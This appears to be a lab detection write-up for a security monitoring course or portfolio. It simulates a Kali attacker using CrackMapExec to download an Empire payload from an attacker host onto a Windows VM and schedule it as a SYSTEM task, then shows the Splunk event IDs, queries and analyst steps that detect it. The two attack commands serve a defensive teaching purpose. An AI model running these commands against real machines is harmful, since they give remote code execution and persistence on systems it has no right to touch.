

# Detection Usecase 5 : Remote Scheduled Task Creation with schtasks


# Scenario Summary: 

An Attacker has tried to execute command remotely using crackmapexec and schedule a malware in the system to become Persistence.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.  
- The Attack was simulated by Kali Linux on Windows as follows:  

1) Attacker downloaded a malware in the victim machine using Crackmapexec:   
```
crackmapexec smb 192.168.0.101 -u sshuser -p 'pass' -x 'powershell Invoke-WebRequest -URI http://192.168.0.106:8888/launcher.bat -Outfile C:\Users\sshuser\empire.bat'
```  
2) Then Scheduled the malware in the System:  
```
crackmapexec smb 192.168.0.101 -u sshuser -p 'pass' -x 'schtasks /create /tn Empirepayload /tr C:\Users\sshuser\empire.bat /sc once /st 11:00 /ru SYSTEM'
```  
3) After the execution of scheduled task attacker got a remote shell in Empire:  
    

- Tools Used:  
    - Attacker Tool : Crackmapexec, PowerShell-Empire, schtasks.    
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon  


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                         |
|---------------------------|-----------|-------------------------------------|
| WinEventLog : Security    | 5140,5145 | Network Shared Object Access        |
| WinEventLog : Security    | 4698      | Task Creation                       |
| WinEventLog : Sysmon      | 11        | File Creation                       |
| WinEventLog : Sysmon      | 1         | Process Creation                    |

# Detection Query / Logic:
```spl 
- Search : Task Creation
index=* EventCode=4698
```
```spl 
- Search : File or Process Creation
index=* EventCode=1 OR EventCode=11
```

# Sample Alert Screenshot

1) Network Object Accessed:  
 
  

2) Attacker created a schedule task: 

  
  


3) Scheduled task runs and execute some encoded powershell script:


# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify the event(e.g.,Event ID = 4698) and identify which user account has created the scheduled tasks and what it executes.  
-> Try to correlate it with any previous event(e.g.,Brute-Force or Enumeration,Failed Login etc.).  
-> Try to look for suspicious command-lines such as Powershell one-liner or encoded scripts in scheduled tasks.  
-> If Suspicious try to kill or disable it.  
-> Preserve the Evidence & Trigger an incident response.    
-> Document & Report.


# Detection Status

 -> Successfully Detected.  
